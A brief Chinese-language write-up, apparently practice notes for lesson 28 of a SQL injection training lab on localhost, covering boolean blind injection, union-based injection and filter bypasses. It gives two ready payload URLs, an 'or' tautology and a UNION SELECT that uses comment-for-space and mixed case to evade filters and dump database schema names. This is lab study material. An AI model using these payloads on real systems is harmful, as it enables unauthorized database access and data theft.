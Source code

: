 # Lesson-28

```
Bool 盲注 , 明注 , 替换空格 , 随机大小写绕过
```

这个Payload基本通杀 : 
```
http://127.0.0.1/Less-28a/?id=0%27%20or()or%20%27%27=%271
直接盲注就行
```
这样也可以明注 : 
```
http://127.0.0.1/Less-28a/?id=0%27)/**/UnION/**/select/**/1,1,group_concat(schema_name)/**/from/**/information_schema.schemata/**/where/**/(%27%27=%27
```
